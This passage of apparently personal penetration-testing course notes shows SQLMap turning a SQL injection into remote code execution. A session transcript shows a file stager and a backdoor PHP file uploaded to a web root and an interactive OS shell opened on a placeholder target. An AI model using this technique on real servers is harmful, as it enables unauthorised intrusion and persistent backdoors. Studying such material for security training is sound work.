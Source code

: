 ```shell-session
[1] common location(s) ('/var/www/, /var/www/html, /var/www/htdocs, /usr/local/apache2/htdocs, /usr/local/www/data, /var/apache2/htdocs, /var/www/nginx-default, /srv/www/htdocs') (default)
[2] custom location(s)
[3] custom directory list file
[4] brute force search
> 1

[18:06:09] [WARNING] unable to automatically parse any web server path
[18:06:09] [INFO] trying to upload the file stager on '/var/www/' via LIMIT 'LINES TERMINATED BY' method
[18:06:09] [WARNING] potential permission problems detected ('Permission denied')
[18:06:10] [WARNING] unable to upload the file stager on '/var/www/'
[18:06:10] [INFO] trying to upload the file stager on '/var/www/html/' via LIMIT 'LINES TERMINATED BY' method
[18:06:11] [INFO] the file stager has been successfully uploaded on '/var/www/html/' - http://www.example.com/tmpumgzr.php
[18:06:11] [INFO] the backdoor has been successfully uploaded on '/var/www/html/' - http://www.example.com/tmpbznbe.php
[18:06:11] [INFO] calling OS shell. To quit type 'x' or 'q' and press ENTER

os-shell> ls -la

do you want to retrieve the command standard output? [Y/n/a] a

command standard output:
---
total 156
drwxrwxrwt 1 www-data www-data   4096 Nov 19 18:06 .
drwxr-xr-x 1 www-data www-data   4096 Nov 19 08:15 ..
-rw-rw-rw- 1 mysql    mysql       188 Nov 19 07:39 basic.php
...SNIP...
```

As we can see, this time SQLMap successfully dropped us into an easy interactive remote shell, giving us easy remote code execution through this SQLi.

Note: SQLMap first asked us for the type of language used on this remote server, which we know is PHP. Then it asked us for the server web root directory, and we asked SQLMap to automatically find it using 'common location(s)'. Both of these options are the default options, and would have been automatically chosen if we added the '--batch' option to SQLMap.

With this, we have covered all of the main functionality of SQLMap.

# Questions
---

![](Pasted%20image%2020250204180052.png)

## First
---
